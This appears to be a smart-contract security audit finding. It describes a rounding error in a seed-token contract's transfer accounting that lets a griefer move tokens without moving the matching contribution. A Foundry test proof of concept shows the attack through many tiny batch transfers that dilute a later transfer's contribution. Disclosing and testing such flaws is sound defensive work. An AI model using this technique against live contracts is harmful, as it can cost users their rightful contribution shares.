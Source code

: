 However, due to rounding errors, a griefer can transfer seed tokens to others without transferring their contribution if `values[i] * contributions[ids[i]][from]` is lower than `balanceOf(from, ids[i])`.

This can cause an issue. Consider a scenario when the market reaches the `FUNDED` state, and user A, wants to transfer part of their tokens to another user B. Before the transfer occurs, a griefer transfers their seed tokens to user A. Without knowing that their balance has increased, user A transfers a portion of the tokens to user B. However, due to the increased balance of user A, the amount of contribution user B receives will be less than it should be.

Coded PoC :

```solidity
  function testTransferGriefContributions() public {
     (uint256 tokenId,) = defaultMarket(ophelia);

    userMint(alice, tokenId, 2000 ether);
    userMint(bob, tokenId, 3000 ether);
    userMint(charlie, tokenId, 5001 ether);

    uint256 alicesContribution = ipSeed.contributions(tokenId, alice);
    uint256 aliceBalance = ipSeed.balanceOf(alice, tokenId);
    uint256 halfAliceBalanceInitial = aliceBalance / 2;
    uint256 expectedTransferedContribution = halfAliceBalanceInitial * alicesContribution / aliceBalance;
    console.log("alice contribution before :");
    console.log(alicesContribution);
    console.log("alice balance before :");
    console.log(aliceBalance);

    //charlie donate to alice but not tranferring contribution
    uint256[] memory ids = new uint256[](200);
    uint256[] memory amounts = new uint256[](200);
    for (uint i; i < 200; i++) {
       ids[i] = tokenId;
       amounts[i] = 600;
    }
    vm.startPrank(charlie);
    ipSeed.safeBatchTransferFrom(charlie, alice, ids, amounts, "");
    vm.stopPrank();

    assertEq(alicesContribution, ipSeed.contributions(tokenId, alice));

    console.log("alice contribution after :");
    console.log(ipSeed.contributions(tokenId, alice));
    console.log("alice balance after :");
    console.log(ipSeed.balanceOf(alice, tokenId));

    uint256 bobContributionBefore = ipSeed.contributions(tokenId, bob);

    // alice transfer half of token amount before donation from charlie
    vm.startPrank(alice);
    ipSeed.safeTransferFrom(alice, bob, tokenId, halfAliceBalanceInitial, "");
    vm.stopPrank();

    uint256 receivedContribution = ipSeed.contributions(tokenId, bob) - bobContributionBefore;

    console.log("expected contribution : ");
    console.log(expectedTransferedContribution);
    console.log("transferred contribution after donation : ");
    console.log(receivedContribution);

  }
```
